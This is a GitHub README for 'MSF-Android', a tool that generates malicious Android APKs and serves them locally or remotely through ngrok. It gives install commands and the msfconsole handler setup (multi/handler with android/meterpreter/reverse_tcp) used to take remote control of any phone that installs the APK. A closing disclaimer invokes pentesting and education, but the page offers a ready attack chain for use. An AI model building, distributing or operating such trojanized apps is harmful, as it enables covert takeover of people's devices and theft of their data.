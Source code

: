 # MSF-Android

Generador de APK's maliciosas para Android | local y remoto.

![msf_android](https://user-images.githubusercontent.com/75953873/156859921-fb62e471-16e6-43f9-809c-245d9ccf57ea.png)

## 📷 SCREENSHOTS 

### Instalando NGROK:
![download_ngrok](https://user-images.githubusercontent.com/75953873/156858687-ddee2244-982a-4cd7-bff3-d7a0ea9e19f4.png)


### Creando APK:
![ngrok](https://user-images.githubusercontent.com/75953873/156858797-e04b002a-aa7a-45d5-bdab-2a59b076a56a.png)


### Obteniendo enlace **`LOCAL`** && **`REMOTO`**:
![downloadAPK](https://user-images.githubusercontent.com/75953873/156858874-aa842762-05d0-4d7b-831f-18f534e8ecda.png)

### Obteniendo una sesión meterpreter
![exploit](https://user-images.githubusercontent.com/75953873/156859040-6a96a969-cbeb-448e-ab64-07c36780a91b.png)

##### Abrimos una nueva terminal y ejecutamos:
```
> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set LHOST 0.0.0.0
> run
```
![exploit_2](https://user-images.githubusercontent.com/75953873/156859055-666a76c4-d74b-48e4-a262-4f95f6dcebd6.png)


## Instalación / Installation

```
> git clone https://github.com/R3LI4NT/MSF-Android
> cd MSF-Android
> pip3 install -r requirements.txt
> sudo python3 msfandroid.py
```


### Importante

**`ES:`** No me hago responsable del mal uso que se le pueda dar a esta herramienta, úselo para Pentesting o fines educativos.

**`EN:`**  I am not responsible for the misuse that may be given to this tool, use it for Pentesting or educational purposes.
